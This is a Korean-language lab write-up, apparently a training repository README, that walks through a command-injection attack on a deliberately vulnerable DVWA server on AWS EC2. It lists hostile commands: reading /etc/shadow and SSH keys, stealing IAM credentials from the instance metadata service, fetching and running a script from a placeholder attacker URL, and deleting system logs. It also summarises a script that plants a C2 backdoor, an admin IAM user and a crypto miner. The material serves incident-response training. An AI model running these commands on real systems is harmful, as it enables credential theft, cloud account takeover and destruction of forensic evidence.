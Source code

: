 #  공격 시나리오: DVWA - Command Injection

## 개요

이 문서는 DVWA(Damn Vulnerable Web Application) 서버에서 **명령어 삽입 취약점(Command Injection)** 을 악용한 공격 시나리오를 설명합니다.  
공격 대상은 **ALB(Application Load Balancer) 뒤에 위치한 EC2 인스턴스**로, 최대한 많은 아티팩트를 수집하기 위한 실험 목적으로 다음과 같은 조건을 갖습니다:

- **웹 서버가 root 권한으로 실행 중**
- **EC2 인스턴스에 과도한 IAM 권한이 부여됨**
- **IMDSv1 (Instance Metadata Service v1)**


> 이 환경은 EC2 인스턴스에 최대 권한이 부여된 상태에서 원격 코드 실행(RCE) 및 권한 상승(LPE)공격에 의해 탈취된 상황을 가정한 실습 및 대응 훈련을 위한 구조입니다.


---

##  공격 시나리오

<img width="960" alt="스크린샷 2025-05-21 21 22 34" src="https://github.com/user-attachments/assets/c4799623-6251-4a4c-ba6e-e683bb19904d" />

### Step 1: 취약점 발견

1. 공격자는 웹 애플리케이션의 입력 필터링이 제대로 이루어지지 않는 것을 발견하고, 명령어 삽입 취약점이 존재함을 확인합니다.
2. 취약한 파라미터를 통해 쉘 명령어를 삽입하고, 이를 통해 웹 서버의 **root 권한**을 획득합니다.

---

### Step 2: 정보 수집

공격자는 루트 쉘 권한을 확보한 이후, 다음과 같은 명령어를 통해 시스템 내부 정보를 수집하고 AWS 환경에 대한 접근을 시도합니다.

---

#### 시스템 정보 수집

```bash
uname -a               # 커널 정보
ifconfig -a            # 네트워크 인터페이스 정보
id                     # 현재 사용자 정보
cat /etc/passwd        # 계정 목록
netstat -rn            # 라우팅 테이블

find / -name .ssh       # SSH 키 파일 위치 탐색
# → GuardDuty 탐지됨: Execution:Runtime/SuspiciousCommand

cat /home/ec2-user/.ssh/authorized_keys  # SSH 공개키 확인
cat /etc/shadow          # 패스워드 해시 열람 시도
cat /etc/hosts           # 로컬 호스트 정보

# 기본 메타데이터 접근
curl http://169.254.169.254/
curl http://169.254.169.254/latest/
curl http://169.254.169.254/latest/meta-data

# IAM 정보 및 보안 자격 증명 확인
curl http://169.254.169.254/latest/meta-data/iam/info
curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

###  Step 3: 악성 페이로드 배포

공격자는 루트 권한을 이용해 시스템에 악성 스크립트를 배포하고, AWS 리소스를 장악하기 위한 후속 작업을 수행합니다. 이 단계에서 공격자는 **클라우드 자원 침투**, **외부 C2 서버와의 통신**, **비트코인 채굴** 등의 악성 행위를 실행합니다.

---
악성 스크립트 다운 및 실행
```bash
wget {atcker_url}/setup.sh
chmod +x setup.sh
./setup.sh
```
___

### 🛠️ setup.sh 요약

- **웹 사용자 정보 탈취**  
  `collect_info.py` 실행을 통해 웹 로그를 분석하고 로그인 시도, 세션 쿠키 등을 수집

- **네트워크 패킷 감청**  
  `pcap.py`를 통해 서버 내에서 발생하는 패킷을 실시간으로 스니핑하여 계정 정보 등 민감 데이터 탈취

- **지속적인 백도어 유지**  
  `C2.py`를 백그라운드에서 실행해 명령 수신 및 원격 제어 가능 상태 유지

- **IAM 사용자 생성 및 AWS 루트 권한 확보**  
  `AdministratorAccess` 권한을 가진 IAM 사용자를 생성하여 AWS 콘솔 및 CLI에 영구 접근 가능

- **비트코인 채굴**  
  `cpuminer`를 설치 및 실행하여 EC2 인스턴스의 CPU 자원을 활용한 암호화폐 채굴 수행

---

### 🧹 Step 4: 증거 로그 삭제 및 은폐

공격자는 침해 행위 이후 자신이 남긴 흔적을 지우기 위해 다음과 같은 **로그 삭제 및 은폐 작업**을 수행합니다. 이는 향후 포렌식 분석을 어렵게 만들며, 침해 사실을 장기간 감출 수 있도록 돕습니다.

---

```bash
history -c && history -w
rm -f ~/.bash_history
unset HISTFILE
rm -f /var/log/messages
rm -f /var/log/secure
rm -f /var/log/auth.log
rm -f /var/log/wtmp
rm -f /var/log/btmp
rm -f /var/log/lastlog
rm -f /var/log/httpd/access_log
rm -f /var/log/httpd/error_log
rm -f setup.sh
rm -rf /tmp/*
```
